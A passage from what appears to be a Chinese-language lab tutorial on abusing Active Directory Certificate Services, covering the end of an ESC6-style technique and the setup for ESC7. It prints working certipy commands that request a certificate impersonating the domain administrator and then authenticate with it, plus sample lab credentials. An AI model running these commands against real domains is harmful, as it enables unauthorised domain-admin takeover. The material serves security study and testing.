 重启服务

```bash
net stop certsvc && net start certsvc
```

该攻击与 ESC1 相同，只是您可以选择允许客户端身份验证的任何证书模版

## 漏洞利用

```bash
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User -upn administrator@penson.org
```

[![](assets/1708508972-6d6445efb63c6e0ba5e43fec39e1176f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170556-4198b306-cfcf-1.png)

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[![](assets/1708508972-76a20ee8b4cde0de63ba18b5d09fed09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170605-46ec3bca-cfcf-1.png)

# ESC7

ESC7 是指用户拥有 CA 的访问权限 Manage CA，可以使用它来颁发或拒绝待处理的证书请求。从而请求域管证书

## 环境搭建

在 ADCS 服务器上证书颁发机构给 User 添加权限  
在 ADCS 服务器上证书颁发机构给 Users 用户添加“颁发和管理证书”，“管理 CA”权限
